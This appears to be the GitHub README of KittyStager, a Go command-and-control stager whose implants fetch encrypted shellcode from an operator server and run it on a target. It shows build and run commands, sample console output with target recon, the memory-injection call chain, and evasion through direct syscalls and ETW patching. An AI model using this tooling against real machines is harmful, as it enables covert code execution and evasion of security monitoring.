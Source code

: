 # KittyStager



KittyStager is a simple stage 0 C2. The purpose of this project is to be able to have some stage 0 templates and be 
able to use the with any shellcode. I would not use this project in red team, at least not now.



## Content
- [How it works](#how-it-works)
- [Quick start](#quick-start)
- [Kitten's](#Kitten)
- [Project structure](#project-structure)


## How it works

1. Configure all the settings in the config file
2. Start the server
    1. The server will start
    2. A config file will be created with each kitten
    3. It will configure the sleep time for the kitten
3. Compile the kitten
4. Run the kitten

![](/img/workfow.svg)

## Quick start
How to compile
```shell
go build -o kittyStager
./kittyStager

cd /kitten/basickitten
go build -o basickitten
./basickitten
```
How to use :
```shell
~\go\Project_go\GoStager\cmd\kittyStager main ❯ go run .\main.go
                     _
                    / )
                   ( (
     A.-.A  .-""-.  ) )
    / , , \/      \/ /
   =\  t  ;=    /   /
     `--,'  .""|   /
         || |  \\ \
        ((,_|  ((,_\

KittyStager - A simple stager written in Go

[+] Config loaded
[+] Generated conf file for C:\Users\yanng\go\Project_go\GoStager\kitten\basicKitten
[+] Generated conf file for C:\Users\yanng\go\Project_go\GoStager\kitten\bananaKitten
[+] Config file generated
[+] Starting http server
[+] Sleep set to 5s on all targets
[+] Started http server on 127.0.0.1:8080

KittyStager 🐈❯
[+] Request from: 127.0.0.1
[+] User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/102.0
[+] Hostname: TARGET
[+] Username: target
[+] To get more, use the recon 

KittyStager 🐈❯ interact
[*] Targets:
0 - all targets
1 - 127.0.0.1

[*] Please enter the ip of the target
id: 1

KittyStager - 127.0.0.1 🐈❯ shellcode
[*] Please enter the path to the shellcode
Path: ..\..\shellcode\shellcode.bin
text/plain; charset=utf-8
[+] Key generated is : TARGETTARGETTARGETTARGETTARGET
[+] Shellcode hosted for 127.0.0.1 
```

## Kitten
The kitten is the stage 0 payload. It will be compiled and run on the target machine. The kitten will then download the shellcode and execute it.
For the moment, they are only two kittens:
### BasicKitten
This is the basic kitten, and it has the minimum to work. No fancy injection method, just a 
`VirtualAlloc` -> `RtlCopyMemory` -> `VirtualProtect` -> `CreateThread` -> `WaitForSingleObject`. Use this as example if you want to develop your own kitten.
### BananaKitten
This is the more advanced kitten. It will use bananaphone, a variant of hell's gate implemented in Go. [https://github.com/C-Sto/BananaPhone](https://github.com/C-Sto/BananaPhone)
It also patches etw. 

## Project structure
### kitten 
This is the folder where all the kittens are stored. Each kitten has its own folder.
### cmd
#### kittyStager
Main file of the project. It will start the server and create the config file for each kitten.
#### config
Used to read and check the config file. The config file is `conf.yml`
#### http
Used to start the server and serve the shellcode.
#### cli
This is the cli to interact with the server.
#### interact
This is the cli to interact with a kitten, select a shellcode or change sleep time. 
#### util
It contains all the util functions used in the project.
#### cryptoUtil
It contains all the util functions used to encrypt and decrypt the shellcode.
#### httpUtil
It contains all the util functions used to interact with the server.
#### malwareUtil
It contains all the functions used only by the kittens
